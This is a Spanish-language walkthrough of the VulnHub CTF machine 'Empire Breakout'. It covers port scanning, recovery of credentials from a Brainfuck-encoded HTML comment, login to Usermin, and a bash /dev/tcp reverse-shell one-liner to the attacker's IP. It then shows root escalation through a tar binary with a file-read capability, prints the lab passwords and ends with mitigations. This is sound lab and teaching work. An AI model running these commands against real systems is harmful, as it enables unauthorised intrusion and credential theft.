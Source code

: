 # **CTF EMPIRE BREAKOUT**
OBJETIVO: 192.168.131.129 (Empire Breakout)

<div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>

## SECUENCIA DE ATAQUE

### FASE 1: PREPARACIÓN
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub
ping -c 4 192.168.131.129  # Verificación de conectividad
Resultado: Objetivo accesible.

### FASE 2: RECONOCIMIENTO
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129
Puertos identificados:
•	80/tcp - Apache httpd (página web)
•	139/tcp - Samba smbd 4.6.2
•	445/tcp - Samba smbd 4.6.2
•	10000/tcp - MiniServ 1.981 (Webmin)
•	20000/tcp - MiniServ 1.830 (Usermin)

### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129
•	Página Apache por defecto encontrada
•	Inspección código fuente HTML

Extracción de credenciales:
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded -->
•	Código Brainfuck localizado al final del HTML
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3

echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro

Enumeración de usuarios:
enum4linux -a 192.168.131.129
Usuario identificado: cyber

### FASE 4: ACCESO INICIAL

Autenticación:
•	Panel Usermin: https://192.168.131.129:20000
•	Credenciales: cyber / .2uqPEfj3D<P'a-3
•	ACCESO CONCEDIDO

Primera flag:
ls          # Exploración directorio
cat user.txt # Flag user obtenida

### FASE 5: SHELL REVERSA
Preparación listener:
ifconfig                    # IP local: 192.168.0.11
nc -lvp 443                # Listener puerto 443

Ejecución desde Command Shell del panel:
bash -i >& /dev/tcp/192.168.0.11/443 0>&1
Shell reversa establecida como usuario cyber

### FASE 6: ESCALADA DE PRIVILEGIOS

Enumeración de privilegios:
sudo -l                     # Sin resultados
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep

Identificación objetivo:
cd /var/backups
ls -la                     # Archivo: .old_pass.bak (propiedad root)

Explotación capabilities:
cd /home/cyber
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities
tar -xvf clave.tar                              # Extracción
cd var/backups
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h

Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h
script /dev/null -c bash   # Estabilización shell
cd /root
cat root.txt              # Flag root obtenida

## VULNERABILIDADES CRÍTICAS EXPLOTADAS

### CREDENCIALES EN CÓDIGO FUENTE
•	Vector: Contraseña Brainfuck en HTML
•	Impacto: Acceso directo a panel administrativo
•	Criticidad: MÁXIMA

### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar
•	Impacto: Lectura arbitraria de archivos sistema
•	Criticidad: ALTA

### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak
•	Impacto: Escalada directa privilegios root
•	Criticidad: MÁXIMA

### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones
•	Impacto: Superficie ataque administrativa
•	Criticidad: MEDIA

## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web
Enumeración: enum4linux, decode.fr
Acceso: Panel web Usermin
Persistencia: Netcat (shell reversa)
Escalada: getcap, tar (capabilities)

## MEDIDAS DE MITIGACIÓN

### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML
•	Remover capability CAP_DAC_READ_SEARCH del binario tar
•	Eliminar archivo /var/backups/.old_pass.bak
•	Cambiar contraseña root inmediatamente

### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP
•	Auditar todos binarios con capabilities especiales
•	Revisar ubicaciones backup archivos sensibles

### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos
•	Configurar monitoreo accesos administrativos
•	Establecer proceso revisión código fuente

## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt
•	Flag Root: Capturada desde /root/root.txt
•	Credenciales: Usuario 'cyber' y contraseña root documentadas
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/

## EVALUACIÓN
•	TIEMPO: 45 minutos
•	DIFICULTAD: Baja
•	DETECCIÓN: No
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras.

## MV
https://www.vulnhub.com/entry/empire-breakout,751/
